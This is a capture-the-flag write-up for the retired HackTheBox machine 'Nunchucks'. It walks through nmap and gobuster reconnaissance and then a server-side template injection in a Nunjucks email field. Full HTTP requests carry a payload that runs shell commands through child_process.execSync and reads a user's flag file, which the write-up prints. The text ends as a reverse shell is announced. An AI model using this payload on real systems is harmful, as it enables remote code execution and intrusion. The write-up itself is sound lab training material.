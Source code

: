 # Solution for HackTheBox - Nunchucks - Retired

The nmap results for the box are:
```text
┌──(hanoz㉿kali)-[~/…/htb/challenges/HTBoxes/nunchucks]
└─$ nmap -p- 10.10.11.122                                                                                      130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-03 16:06 EST
Nmap scan report for 10.10.11.122
Host is up (0.014s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 5.50 seconds
```

It seems we have a http server and an https server so let's see what's what.
```text
┌──(hanoz㉿kali)-[~/…/htb/challenges/HTBoxes/nunchucks]
└─$ nmap -p- 10.10.11.122 -sV -sC
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-03 16:06 EST
Nmap scan report for 10.10.11.122
Host is up (0.015s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```
We have a domain: nunchucks.htb that we need to add to our etc/hosts

Now when we visit nunchucks.htb, we see all the links in the page are only to the homepage except 
```text
/signup
```
So now we have to register a fake account and sign up

We can't register a fake account and all we are getting is this message
```text
"response":"We're sorry but registration is currently closed."
```
We can't even login to an existing account if we try admin or support because we are getting this message
```text
"response":"We're sorry but user logins are currently disabled."
```

Now let's try to brute for directories
```text
/login
/privacy
/terms
```
There's nothing in here either

Now we will brute force domains
```text
┌──(hanoz㉿kali)-[~]
└─$ gobuster vhost -u https://nunchucks.htb/ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          https://nunchucks.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/01/03 16:34:06 Starting gobuster in VHOST enumeration mode
===============================================================
Found: store.nunchucks.htb (Status: 200) [Size: 4029]
                                                     
===============================================================
2022/01/03 16:34:14 Finished
===============================================================
```

We find aa subdomain.
Here, there is an email sign up form that reflects our input back to us. 
Let's try to do an email validation bypass and try for reflected XSS
Upon a bit of research, we see that the website is vulnerable to SSTI
So we have to use some type of template injection method
Input:
```text
{{3*3}}@whoami.whoami
```
Output:
```text
You will receive updates on the following email address: 9@whoami.whoami
```

Cool now we know that it is vulnerable, we need to find out how we can exploit it
We can bypass the whole Javascript level validation by sending the request through burpsuite
We know from the box name that the backend framework is most likely nunjucks so let's try and see if we can do some sort of command injection
It worked. The payload we used is
```text
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=t636OPcgyQv2Tf8lf35QHSgI
Content-Length: 119
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="92"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://store.nunchucks.htb
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://store.nunchucks.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"{{range.constructor('return global.process.mainModule.require(\"child_process\").execSync(\"ls -la\")')()}}"}
```

Alright now that we know there is command injection let's get the user flag
```text
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=t636OPcgyQv2Tf8lf35QHSgI
Content-Length: 140
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="92"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://store.nunchucks.htb
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://store.nunchucks.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"{{range.constructor('return global.process.mainModule.require(\"child_process\").execSync(\"cd /home/david;cat user.txt\")')()}}"}
```
The flag is 
```text
3be3f93845cf113b6a3cde3ddc2661a7
```

Now let's send ourselves a reverse shell
